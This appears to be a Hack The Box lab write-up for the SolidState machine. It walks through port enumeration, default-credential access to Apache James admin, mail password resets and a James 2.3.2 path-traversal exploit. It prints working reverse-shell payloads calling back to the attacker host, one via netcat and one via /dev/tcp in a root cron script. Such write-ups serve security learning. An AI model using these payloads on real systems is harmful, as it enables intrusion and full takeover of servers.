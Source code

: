 ##    Hack The Box       SolidState (10.129.58.24)



### Enumeration 


First I'll start with an enumeration and we notice ports 22, 25, 119,80, 110, 4555 open on SolidState.

	PORT     STATE SERVICE REASON         VERSION
	22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp5WdwlckuF4slNUO29xOk/Yl/cnXT/p6qwezI0ye+4iRSyor8lhyAEku/yz8KJXtA+ALhL7HwYbD3hDUxDkFw90V1Omdedbk7SxUVBPK2CiDpvXq1+r5fVw26WpTCdawGKkaOMYoSWvliBsbwMLJEUwVbZ/GZ1SUEswpYkyZeiSC1qk72L6CiZ9/5za4MTZw8Cq0akT7G+mX7Qgc+5eOEGcqZt3cBtWzKjHyOZJAEUtwXAHly29KtrPUddXEIF0qJUxKXArEDvsp7OkuQ0fktXXkZuyN/GRFeu3im7uQVuDgiXFKbEfmoQAsvLrR8YiKFUG6QBdI9awwmTkLFbS1Z
	|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE=
	|   256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY
	25/tcp   open  smtp?   syn-ack ttl 63
	|_smtp-commands: Couldn't establish connection on port 25
	80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
	|_http-title: Home - Solid State Security
	| http-methods: 
	|_  Supported Methods: HEAD GET POST OPTIONS
	110/tcp  open  pop3?   syn-ack ttl 63
	119/tcp  open  nntp?   syn-ack ttl 63
	4555/tcp open  rsip?   syn-ack ttl 63
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=10/8%OT=22%CT=%CU=32334%PV=Y%DS=2%DC=T%G=N%TM=6705ABBC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
	ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 0.021 days (since Tue Oct  8 16:31:27 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=259 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 443/tcp)
	HOP RTT      ADDRESS
	1   60.89 ms 10.10.14.1
	2   62.03 ms 10.129.58.24

By using netcat we can determine that JAMES SMTP Server 2.3.2 is running on port 25.

![james](/SolidState/images/james.png)


Using netcat we are able to login to James Remote Management Tool with the user pass combo root:root.

![james](/SolidState/images/login.png) 

We have 5 users:

1. james
2. thomas
3. john
4. mindy
5. mailadmin

![james](/SolidState/images/users.png) 

- Logging into James Server Administration on port 4555 with nc we can reset the user's passwords. I reset all their passwords to 'griffin3' and I also added a user 'jesta' and set his passed to 'griffin'3 as well. 


![james](/SolidState/images/password.png) 


![james](/SolidState/images/password-2.png) 


Browsing to SolidState's webpage i can see that their email accounts are using the solid-state-security.com domain. With this information we can use a tool called smtp-user-enum to verify email accounts and check to see if any of the users have emails that we might be able to read. I couldn't get smtp-users-enum to work. SolidState takes a long time to query information so that might be why. I'll go ahead and try to enumerate emails in pop3 and that's hosted on port 110 so we can just telnet info port 110

### Helpful POP3 commands

1. USER [username] - 1st login command
2. PASS [password] - 2nd login command - Remember I set everyone's password to griffin3
3. QUIT - Logs out
4. STAT - Returns total number of messages and total size
5. LIST - Lists all messages
6. RETR [message]
7. DELE [message]
8. NOOP The POP3 server does nothing, it merely replies with a positive response

We do see that mindy has a couple of mails. Let's try reading them.

	RETR 1
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
		     by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
		     for <mindy@localhost>;
		     Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Welcome

	Dear Mindy,
	Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

	We are looking forward to you joining our team and your success at Solid State Security. 

	Respectfully,
	James


	RETR 2
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
		     by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
		     for <mindy@localhost>;
		     Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Your Access

	Dear Mindy,


	Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
	Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

	username: mindy
	pass: P@55W0rd1!2@

	Respectfully,
	James


### Foothold

#### SSH Creds for minds

- username > mindy
- Password > P@55W0rd1!2@

1. First I'll use netcat to connect to port 4555 and add a user per the following python [exploit](https://www.exploit-db.com/exploits/35513).

![james](/SolidState/images/part-1.png) 

2. I added the user jesta on James' Remote Administration Tool. Next per the 2nd part of the exploit we'll use telnet to connect to port 110 and send an email to /etc/bash_completion.d and add a reverse shell


![james](/SolidState/images/part-2.png) 

3. I'll let up at netcat listener on my host on port 443

4. I'll connect via SSH to mindy to trigger the shell

- sshpass -p 'P@55W0rd1!2@' ssh mindy@10.129.8.209

5. And I get a shell connection.

![james](/SolidState/images/format.png) 


I read a page about exploiting James Server and I think if I run the following commands I can exploit the server and get a shell.



nc 10.129.58.24 4555

adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
User ../../../../../../../../etc/bash_completion.d added
quit

![james](/SolidState/images/adduser.png) 


telnet 10.129.58.24 25

EHLO jesta

MAIL FROM: <'jesta@10.10.14.240>

RCPT TO: <../../../../../../../../etc/bash_completion.d>

DATA

FROM: jesta@10.10.14.240
'
/bin/nc -e /bin/bash 10.10.14.240 443
.

quit

![james](/SolidState/images/mail.png) 

### Privilege escalation

I notice there's an all user's 777 read, write and execute file /opt/tmp that get executed by root every 3 minutes as a chron job. I'll write a reverse shell to the python file.


1. echo "os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.240/4444 0>&1\"')" >> tmp.py 

2. I'll start a listener on my attack host and wait for the cron job to run.


![james](/SolidState/images/root.png) 

![james](/SolidState/images/root-2.png) 

And we can login as the root user now. 

